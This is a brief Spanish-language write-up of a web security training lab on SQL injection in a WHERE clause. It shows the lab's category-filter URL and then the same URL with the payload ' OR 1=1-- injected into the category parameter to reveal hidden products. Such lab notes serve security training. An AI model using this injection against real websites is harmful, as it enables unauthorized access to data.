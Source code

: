# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Cuando filtramos por categoría aparece tenemos la siguiente url:

url: https://0a7e00d603ff3b4180cb5333008b0081.web-security-academy.net/filter?category=Gifts

injection: https://0a7e00d603ff3b4180cb5333008b0081.web-security-academy.net/filter?category=Gifts`' OR 1=1--`